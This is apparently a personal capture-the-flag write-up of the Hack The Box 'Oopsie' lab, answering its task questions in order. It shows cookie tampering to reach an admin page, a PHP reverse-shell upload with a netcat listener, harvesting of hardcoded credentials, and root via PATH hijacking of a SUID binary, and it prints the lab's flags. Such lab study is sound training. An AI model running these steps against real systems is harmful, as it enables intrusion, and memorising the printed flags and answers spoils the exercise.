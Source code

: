 

OOPSIE

	
	connect VPN to the Starting point then start the machine

		MACHINE : 10.129.95.191


			Let's Enumeration machine first by sing nmap to see witch port are open.

				sudo nmap -sCV 10.129.95.191
					Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-05 08:27 EST
					Nmap scan report for 10.129.95.191
					Host is up (0.072s latency).
					Not shown: 998 closed tcp ports (reset)
					PORT   STATE SERVICE VERSION
					22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
					| ssh-hostkey: 
					|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
					|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
					|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
					80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
					|_http-title: Welcome
					|_http-server-header: Apache/2.4.29 (Ubuntu)
					Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

            as we can see there are two ports are open, 22(SSH) and 80(HTTP). I visit website by using IP.
            
      

	task 1 
	 With what kind of tool can intercept web traffic?
	 	A proxy is an agent legally authorised to act on behalf of another party or a format that allows an investor to vote without being physically present at the meeting. Proxy is the tools that help to intercept web.

	 task 2
	 What is the path to the directory on the web-server that returns a login page?
	 	
	 	I looked source code to see if there is any hint i can find, but nothing is behidn the source code.

		As pr information given in service section the is a login page in somewhere else.

![Screenshot 2023-01-05 at 13 42 09](https://user-images.githubusercontent.com/49148722/211022845-613191c7-9e93-46e0-b3f7-c208cbdd046f.png)

		I search for sitemaps which we can see in Firefox inspect > Debugger or we can use burp suite tools to see site maps.

		/cdn-cgi/login/

		we can visit login page by using these directory.
    
![Screenshot 2023-01-05 at 14 10 12](https://user-images.githubusercontent.com/49148722/211022868-d4ab059e-b017-4cc4-bba5-2cd0f9cea473.png)

		I tried bunch of username/password credential to login but it wont worked. There is one more option to login as a guest 


	task 3
	What can be modified in Firefox to get access to the upload page?

		cookie

		I went throw upload page but it only accessible by admin, so I looked at cookie to see if I can bypass admin cookie
    
![Screenshot 2023-01-05 at 14 12 35](https://user-images.githubusercontent.com/49148722/211022896-c70f4a35-ce40-453a-bec7-639b26cfac21.png)

		The cookies set with Role name and ID 
    
![Screenshot 2023-01-05 at 14 12 49](https://user-images.githubusercontent.com/49148722/211022917-cbb5ee0f-2a0e-4f67-8333-7b770cf21e7a.png)

		I can try change the id variable to something else like for example 1 to see if we can enumerate the
			users:
			http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=1
		I got an information disclosure vulnerability, which might be able to abuse. I have access ID and role name so, let's change in cookie and refresh.
    
![Screenshot 2023-01-05 at 14 23 42](https://user-images.githubusercontent.com/49148722/211022957-9e30f3d7-d97d-4afd-840b-9881a26cea08.png)

	task 4
	What is the access ID of the admin user?

		34322
    
	task 5
	On uploading a file, what directory does that file appear in on the server?
		/uploads
![Screenshot 2023-01-05 at 14 27 57](https://user-images.githubusercontent.com/49148722/211023001-57ed3104-4eee-4214-a980-ee04408b333f.png)

		 Now I have access of upload page so we can upload php reverse shell. we can create own reverse shell or we can use existing one.

		I am using existing reverse shell. If you are using Kali Linux than you can find it here "/home/Kali/SecLists-master/Web-Shells/laudanum-0.8/php/php-reverse-shell.php". Modify with $IP and $PORT with out own.
		I upload it on upload page.

		now let's find the upload directory by using gobuster.

		gobuster dir -u http://10.129.95.191/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt      

![Screenshot 2023-01-05 at 15 29 21](https://user-images.githubusercontent.com/49148722/211023056-32181c67-ac88-43a0-b879-6c9dedfc7e80.png)

			I found /uploads on a result of gobuster.

		before hit the url that i found in gobuser I started a listener pot by using 

		NC -lvvp 9009
    
![Screenshot 2023-01-05 at 15 28 06](https://user-images.githubusercontent.com/49148722/211023068-cf4e54e6-f151-48f2-b935-f8541a440582.png)

		Now I use url that I found throw gobuster http://10.129.95.191/uploads/shell.php

		Finally I get connection on my listener port. In order to have a functional shell though we can issue the following:
    
![Screenshot 2023-01-05 at 15 58 34](https://user-images.githubusercontent.com/49148722/211023097-4c94cafe-6c8b-4374-926a-7651e68c59c4.png)

			python3 -c 'import pty;pty.spawn("/bin/bash")'

		task 6
		What is the file that contains the password that is shared with the Robert user?

		it has restriction so we cant access some of file. website is build in php and sql so we can find some miscofiregation user /var/www/html/cdncgi/login directory. we can find source code and see what we get in there.

		cat * for real all file while grep use for  piping the output -i to ignore case sensitive words like Password.
		
		cat * | grep -i passw*

			if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
			<input type="password" name="password" placeholder="Password" />
      
![Screenshot 2023-01-05 at 16 09 03](https://user-images.githubusercontent.com/49148722/211023142-f491c505-3faf-4435-8184-d350714afc79.png)

		Lets find out root user in /etc/passwd directory. I found Robert

		I try to change user with "MEGACORP_4dm1n!!" but it is wrong 
		so, let's check all file if we get any important information.
		I found important information on db.php.

			<?php
				$conn = mysql_connect('localhost','robert','M3g4C0rpUs3r!','garage');
			?>

![Screenshot 2023-01-05 at 16 09 20](https://user-images.githubusercontent.com/49148722/211023185-70ecf1ba-a261-4507-8991-11f6fd167371.png)

			let's use it on Robert user.

			finally I got access of Robert here we can find the user.txt

		task 7
		What executable is run with the option "-group bug-tracker" to identify all files owned by the bug-tracker group?

			lets find -group bug-tracker by using find tag.

			find / -group bug-tracker 2>/dev/null

				I found directory for bug-tracker.
		
			/usr/bin/bugtracker

			We check what privileges and what type of file is it:
			ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
      ![Screenshot 2023-01-05 at 16 19 52](https://user-images.githubusercontent.com/49148722/211023371-b3484003-be61-4452-be27-162102979d97.png)


			There is a suit set on that binary, which is a promising exploitation path.


		task 8 
		Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?
		 
		root

		task 9
		What SUID stands for?
		Set owner User ID

		task 10 
		What is the name of the executable being called in an insecure manner?

		using cat command we can read file. however it does not specify all directory, but we can exploit cat command

		task 11
		Submit user flag

			f2c74ee8db7983851ab2a96a44eb7981
![Screenshot 2023-01-05 at 16 35 13](https://user-images.githubusercontent.com/49148722/211023404-7e515ef2-9ea3-4179-83d4-c4bc6f643f46.png)

		task 12
		Submit root flag
			we got the bugtracker file but it can not execute on Robert user
			 lets navigate /tmp directory and create cat file 

			 echo "/bin/sh" > cat

			 We will then set the execute privileges

			 chmod +x cat

			 In order to exploit this we can add the /tmp directory to the PATH environmental variable.
			 	PATH is an environment variable on Unix-like operating systems, DOS, OS/2, and Microsoft Windows, specifying a set of directories where executable programs are located.

			 use following command to execute 

			 export PATH=/tmp:$PATH

			 check the $PATH
			 echo $PATH

			 Finally execute the bugtracker from /tmp directory

			 now we have root user access.
			 go to /root directory to get root.txt flag
			af13b0bee69f8a877c3faf667f7beacf
